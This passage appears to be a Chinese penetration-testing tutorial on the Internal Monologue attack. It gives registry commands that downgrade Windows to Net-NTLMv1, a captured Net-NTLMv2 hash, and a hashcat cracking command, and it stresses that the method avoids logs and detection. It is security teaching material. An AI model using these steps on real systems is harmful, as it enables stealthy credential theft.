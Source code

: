 由于Net-NTLMv1的脆弱性，在控制Challenge后可以在短时间内通过彩虹表还原出用户的ntlm hash，所以在利用上首选的是将Win7环境下的默认Net-NTLMv2降级到Net-NTLMv1，获取本机的通信数据，还原出ntlm hash，实现工具: InternalMonologue

下载地址：

https://github.com/eladshamir/Internal-Monologue


通过修改注册表使Net-NTLMv2降级到Net-NTLMv1，获得正在运行的用户token，模拟用户同NTLM SSP进行交互，控制Challenge为固定值`1122334455667788`，导出返回的Net-NTLMv1 response

**注：**

修改注册表需要管理员权限

修改注册表开启Net-NTLMv1:

```
reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa\ /v lmcompatibilitylevel /t REG_DWORD /d 2 /f
```

为确保Net-NTLMv1开启成功，还需要修改两处注册表键值：

```
reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa\MSV1_0\ /v NtlmMinClientSec /t REG_DWORD /d 536870912 /f
reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa\MSV1_0\ /v RestrictSendingNTLMTraffic /t REG_DWORD /d 0 /f
```

获得的结果可以通过访问网站https://crack.sh/get-cracking/，使用免费的彩虹表进行破解，不再赘述

**优点：**

1. 这种方式不会对lsass.exe进程进行操作
2. 同本地NTLM SSP进行交互，不会产生流量
3. 没有进行NTLM认证，不会产生日志


**补充：**

如果以普通用户权限执行InternalMonologue，能够获得当前用户权限的Net-NTLMv2数据包，通过hashcat进行破解，能获得当前用户的明文口令

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-3-23/4-1.png)

如上图，获得Net-NTLMv2的数据包如下：

`a::WIN-BH7SVRRDGVA:1122334455667788:db18ac502e829dfab120e78c041e2f87:01010000000000008e2ddebb92c2d30175f9bda99183337900000000020000000000000000000000`

使用hashcat进行字典破解，参数如下：

`hashcat -m 5600 a::WIN-BH7SVRRDGVA:1122334455667788:db18ac502e829dfab120e78c041e2f87:01010000000000008e2ddebb92c2d30175f9bda99183337900000000020000000000000000000000 /tmp/password.list --force`

成功破解，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-3-23/4-2.png)

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-3-23/4-3.png)
